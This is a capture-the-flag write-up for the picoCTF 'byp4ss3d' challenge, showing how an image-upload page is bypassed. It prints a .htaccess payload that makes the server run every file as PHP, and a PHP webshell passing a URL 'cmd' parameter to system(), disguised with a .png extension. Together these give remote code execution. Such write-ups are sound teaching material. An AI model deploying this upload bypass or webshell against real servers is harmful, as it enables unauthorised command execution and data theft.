






## byp4ss3d



We are given a webpage where we can upload student ID photos.  



One of the challenge hints gives us a big clue, suggesting that we use `.htaccess` to exploit the webpage.  



`.htaccess` is a special file used for Apache server configurations. They can be tricked into treating all files in the current directory as PHP scripts using the `SetHandler` directive.  

We can create a simple payload file as shown below.  

```
SetHandler php-script
```

Indeed, the webpage successfully uploads our malicious `.htaccess`. This means that all files in the `/images` directory will be executed as PHP scripts.  



We can now upload malicious PHP scripts to execute on the server to hopefully gain RCE. Below is a simple PHP webshell that executes commands supplied through URL parameters.  

```php
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
```

Since only image files are allowed, we have to submit our webshell with a `.png` extension. This doesn't matter as our `.htaccess` has already tricked the server into treating all files, including images, as PHP scripts.  



Now that we have gained RCE, we can explore the server, finding the flag in `../../flag.txt`.  



Flag: `picoCTF{s3rv3r_byp4ss_9b8609cc}`